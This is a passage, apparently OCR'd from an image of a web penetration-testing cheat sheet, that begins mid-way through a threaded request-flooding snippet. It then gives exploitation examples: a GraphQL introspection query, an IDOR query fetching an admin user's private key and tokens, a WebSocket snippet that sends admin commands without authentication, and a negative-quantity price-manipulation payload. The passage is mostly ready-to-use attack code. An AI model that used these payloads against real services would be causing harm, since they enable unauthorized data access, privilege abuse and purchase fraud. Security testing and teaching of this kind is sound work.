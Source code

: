 ```
        t = threading.Thread(target=lambda: requests.post(url, data=data))
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```

**GraphQL Exploitation**:
```graphql
# Introspection query to map schema
query IntrospectionQuery {
  __schema {
    queryType { name }
    types {
      name
      fields {
        name
        type { name }
      }
    }
  }
}

# IDOR through GraphQL
query {
  user(id: "admin") {
    email
    privateKey
    adminTokens
  }
}
```

**WebSocket Security Testing**:
```javascript
// WebSocket authentication bypass
var ws = new WebSocket('wss://target.com/admin-ws');
ws.onopen = function() {
    // Send admin commands without authentication
    ws.send(JSON.stringify({
        "action": "get_all_users",
        "token": "bypass"
    }));
};
```

**Business Logic Exploitation Examples**:

**Price Manipulation**:
```python
# Negative quantity purchase
payload = {
    "item_id": "premium_item",
    "quantity": -1,
    "price": 100
}
# Result: Credit applied instead of charge
```
